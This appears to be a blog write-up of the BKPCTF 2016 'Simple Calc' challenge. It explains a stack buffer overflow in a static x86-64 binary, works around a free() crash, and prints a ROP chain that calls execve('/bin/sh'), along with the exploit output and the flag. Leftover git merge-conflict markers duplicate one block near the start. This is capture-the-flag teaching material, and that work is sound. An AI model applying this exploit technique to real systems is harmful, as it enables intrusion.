 ```yaml
---
layout: post
title:  "BKPCTF 2016 - Simple Calc"
date:   2016-03-07 22:51:04 +1100
categories:
author: hugsy
tags:  exploit gef ida bkpctf-2016 x86
---
```


### Info ###

The vulnerable file is
[here](http://s000.tinyupload.com/index.php?file_id=89756110683962777183).

{% highlight bash %}
~/cur/simple_calc $ file b28b103ea5f1171553554f0127696a18c6d2dcf7
b28b103ea5f1171553554f0127696a18c6d2dcf7: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=3ca876069b2b8dc3f412c6205592a1d7523ba9ea, not stripped
~/cur/simple_calc $ checksec.sh --file b28b103ea5f1171553554f0127696a18c6d2dcf7
=======
{% highlight bash %}
~/cur/simple_calc $ file b28b103ea5f1171553554f0127696a18c6d2dcf7
b28b103ea5f1171553554f0127696a18c6d2dcf7: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=3ca876069b2b8dc3f412c6205592a1d7523ba9ea, not stripped
~/cur/simple_calc $ checksec.sh --file b28b103ea5f1171553554f0127696a18c6d2dcf7                                                                                              [22:30]
>>>>>>> 6967dc560545cbc4b5df05fce1ecd06222630409
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   b28b103ea5f1171553554f0127696a18c6d2dcf7
{% endhighlight %}

### Vulnerability ###

`simple_calc` offered a binary that expects us to make some calculations.
It will ask for a number of calculations (say *N*) to perform and will
`malloc()` *N*x4 bytes in the heap. If we decompile with
[IDA](https://www.hex-rays.com/products/ida/), it'll look something like this:

<!--more-->

![](https://i.imgur.com/aFaqYf6.png)

Then a loop of *N* iterations will commence,
each iteration offering to perform one of the possible arithmetic operations,
ADD/SUB/MUL/DIV, or exit. Those operations perform pretty much what you expect of them,
which take in 2 DWORD operands, and apply the function. What is worth noticing is that
both operands and result are stored in the `.bss` (therefore at predictable
addresses).

{% highlight text %}
[...]
.bss:00000000006C4A84 add_operator_2  dd ?                    ; DATA XREF: adds+40
.bss:00000000006C4A84                                         ; adds+69 ...
.bss:00000000006C4A88 add_result      dd ?                    ; DATA XREF: adds+96
.bss:00000000006C4A88                                         ; adds+9C ...
.bss:00000000006C4A8C                 align 10h
.bss:00000000006C4A90                 public div_operator_1
.bss:00000000006C4A90 div_operator_1  dd ?                    ; DATA XREF: divs+13
.bss:00000000006C4A90                                         ; divs+5E ...
.bss:00000000006C4A94 div_operator_2  dd ?                    ; DATA XREF: divs+40
.bss:00000000006C4A94                                         ; divs+69 ...
.bss:00000000006C4A98 div_result      dd ?                    ; DATA XREF: divs+9B
[...]
{% endhighlight %}

By exiting, `simple_calc` performs a `memcpy()` of the malloc-ed buffer (whose
length is controlled by us) into a stack buffer (of length 0x28 bytes) located
at $rbp+40h.
![](https://i.imgur.com/0wcLH24.png)

It is then easy to spot the trivial stack buffer overflow.


### Exploitation ###

When an operation is finished, the resulting DWORD is stored inside the malloc-ed
buffer at the offset corresponding of the main loop iteration.
So the game here is to play with those (basic) arithmetic operations to
write arbitrary data in the malloc-ed buffer: for example, if we want to write
0x10001000 | 0x20002000 in our malloc-ed buffer, we would create 2 operations,
then perform:

   1. an ADD with op1=0x10000000 and op2=0x00001000
   1. an ADD with op1=0x20000000 and op2=0x00002000
   1. and so on

By calling successively the same arithmetic operation, say `ADD` (or any other),
we have a predictable way to populate the malloc-ed buffer.

To corrupt the memory we must fill the stack buffer entirely (40 bytes), so make
at least 10 operations. The stack buffer is followed (in the memory layout) by
variables, so we add 24 bytes of junk (3 QWORD), another QWORD for
overwriting the SFP, and a last to overwrite RIP.

{% highlight python %}
def pwn(s):
    addrs = [0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x42424242, 0x43434343, # overwritten vars
             0x44444444, 0x44444444, # overwritten vars
             0x44444444, 0x44444444, # overwritten vars
             0x44444444, 0x44444444, # sfp
             0x45454545, 0x45454545, # rip
             ]
{% endhighlight %}

We execute and a SIGSEGV was well caught (as seen with
[`gef`](https://github.com/hugsy/gef)) :
![](https://i.imgur.com/rn4XSOR.png)

However, the faulty instruction is in the `free()` following the `memcpy()` and
yet not in the return from the main function.
`free()` is trying to remove the chunk pointed by the value stored in $rdi (here
0x4444444444444444). However, a quick look in the man page (`man 3 free`) and we
find our solution:

> The free() function frees the memory space pointed to by ptr,[...] If ptr is
> NULL, no operation is performed.

So let's rebuild our stack accordingly:

{% highlight python %}
def pwn(s):
    addrs = [0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x42424242, 0x43434343, # overwritten vars
             0x00000000, 0x00000000, # for free(NULL)
             0x44444444, 0x44444444, # overwritten vars
             0x44444444, 0x44444444, # sfp
             0x45454545, 0x45454545, # rip
             ]
{% endhighlight %}

We try again, and we hit the SIGSEGV in the RET. Perfect, time to bypass NX.

{% highlight text %}
Program received signal SIGSEGV, Segmentation fault.
[...]
0x40157c	 <main+505>  mov    edi,eax
0x40157e	 <main+507>  call   0x4156d0 <free>
0x401583	 <main+512>  mov    eax,0x0
0x401588	 <main+517>  leave
0x401589	 <main+518>  ret 		 ← $pc
0x40158a	 nop    WORD PTR [rax+rax*1+0x0]
0x401590	 <__libc_start_main>  push   r14
{% endhighlight %}

We want to have a shell (what else, right?) so we need all the gadgets to
syscall execve('/bin/sh', 0, 0).

Bypassing NX is not that hard, all we need are the right gadgets. We choose a
writable address, and write '/bin//sh' (we arbitrarily chose 0x6c3110 in the
`.bss`). Using [`ropgadget`](https://github.com/JonathanSalwan/ROPgadget) makes
it easier than ever:

{% highlight text %}
0x401c87:                  # pop rsi ; ret
0x6c3110:                  # our writable address
0x44db34:                  # pop rax ; ret
0x6e69622f, 0x68732f2f,    # /bin//sh
0x470f11                   # mov qword ptr [rsi], rax ; ret
0x447233:                  # mov    rax,rsi; ret
0x479295                   # mov edi, eax ; dec dword ptr [rax - 0x77] ; ret
{% endhighlight %}

At this stage, we have `/bin//sh` written @0x6c3110 and this address inside the
EDI register. Then we can use the gadget `0x437aa9: pop rdx ; pop rsi ; ret` to populate RSI and
RDX with 0. Because it embeds a libc, the binary is full of `syscall`
instructions, we'll use the one at 0x435675.

We now have our full chain:

{% highlight python %}
def pwn(s):
    addrs = [0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x42424242, 0x43434343, # overwritten vars

             0x00000000, 0x00000000, # for free(NULL)
             0x44444444, 0x44444444, # last overwritten vars
             0x44444444, 0x44444444, # sfp

             0x401c87, 0, # pop rsi ; ret
             0x6c3110,  0x0, # addr rw

             0x44db34, 0, # pop rax ; ret
             0x6e69622f, 0x68732f2f,  #  /bin//sh

             0x470f11, 0, # mov qword ptr [rsi], rax ; ret

             0x447233, 0, # mov    rax,rsi; ret
             0x479295, 0, # mov edi, eax ; dec dword ptr [rax - 0x77] ; ret

             0x44db34, 0x0, # pop rax
             0x3b, 0, # syscall_execve

             0x437aa9, 0x0, # pop rdx ; pop rsi ; ret
             0, 0,
             0, 0,

             0x435675, 0, # syscall()
    ]
{% endhighlight %}

Run and pwn !

{% highlight bash %}
/cur/simple_calc $ ./simple_calc.py                                                                                                                                         [23:36]
[+] Connected to localhost:5400
[+] Running 45 calculations
[+] Iter 1: got result 0x41414141
[+] Iter 2: got result 0x41414141
[+] Iter 3: got result 0x41414141
[+] Iter 4: got result 0x41414141
[+] Iter 5: got result 0x41414141
[+] Iter 6: got result 0x41414141
[+] Iter 7: got result 0x41414141
[...]
[+] Triggering exploit
[+] Got it, interacting (Ctrl-C to break)
[+] Get a PTY with ' python -c "import pty;pty.spawn('/bin/bash')"  '
ls
key
simple_calc
cat key
BKPCTF{what_is_2015_minus_7547}
{% endhighlight %}

The full exploit is [here](https://gist.github.com/hugsy/88e7137466505e0402ca).
